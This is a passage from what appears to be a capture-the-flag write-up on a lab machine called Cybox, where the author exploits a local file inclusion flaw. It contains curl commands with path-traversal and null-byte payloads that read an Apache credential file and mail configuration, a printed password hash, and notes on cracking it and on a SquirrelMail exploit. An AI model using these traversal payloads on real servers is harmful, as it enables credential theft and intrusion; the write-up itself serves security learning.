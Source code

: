 Then I see that the basic auth credentials are in the `AuthUserFile` variable. When I get the file `/opt/bitnami/apache2/users`:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../../../opt/bitnami/apache2/users%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4"

administrator:PGwstF2Sa2yAw
```
Then I tried to crack it with `Hashcat` and Rockyou list, but it fails.
When I check multiple default files with the LFI, but I can not find anything useful, then I remember that I have a vhost that I have not seen.

Given I can access `webmail.cybox.company`, then I can see `SquirrelMail v1.4.22` app:

![evidence](./static/13-index-webmail.png)

And I can log in with my `testing:testing` credentials, and I also see the password reset email. when I google `SquirrelMail version 1.4.22 exploit`, then I find [SquirrelMail < 1.4.22 - Remote Code Execution - Exploit-DB](https://www.exploit-db.com/exploits/41910), and it requires an account and that SquirrelMail uses the Sendmail method as email delivery transport. When I search for `SquirrelMail default path` to identify `config` files, and I find the [official SquirrelMail documentation](https://squirrelmail.org/docs/admin/admin-2.html):
```shell
# cd /path/to/squirrelmail
# cd config
# ./conf.pl
```
And with the LFI I know how to get to the `webmail` webroot:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../htdocs/webmail/config/conf.pl%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4" > config.pl
```
And I use the `grep` command:
```shell
$ grep -i "usesendmail" conf.pl
$useSendmail = "false"    if ( lc($useSendmail) ne "true" );
  if ( lc($useSendmail) eq "true" ) {
    if ( lc($useSendmail) eq "true" ) {
...SNIPPED...
```
Then I can verify that SquirrelMail does not use the `Sendmail` method, then the exploit does not apply, and I got stuck again and I decide to return to the LFI, and I check again the files I already have. When I check the `httpd.conf` file that I stored with the same name, but filtering better using the `grep` command, and removing the noisy comments:
```shell
$ grep -i "include" http.conf | egrep -v '^#'
...SNIPPED...
Include conf/extra/httpd-vhosts.conf
Include conf/extra/httpd-ssl.conf
Include "/opt/bitnami/apache2/conf/ssi.conf"
Include "/opt/bitnami/apache2/conf/fastcgi.conf"
Include "/opt/bitnami/apps/phpmyadmin/conf/phpmyadmin.conf"
```
